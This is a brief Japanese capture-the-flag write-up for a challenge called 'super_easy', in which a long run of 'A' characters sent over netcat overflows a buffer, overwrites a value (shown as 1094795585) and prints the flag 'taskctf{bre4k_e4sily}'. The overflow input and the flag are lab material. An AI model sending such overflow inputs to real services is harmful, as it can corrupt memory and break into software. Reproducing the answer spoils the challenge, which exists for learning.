 # super_easy

BOF。大量のAを入力した。
```
$ nc 
Input task name
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
task
task name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
task done: 1094795585
taskctf{bre4k_e4sily}
```

```bash
taskctf{bre4k_e4sily}
```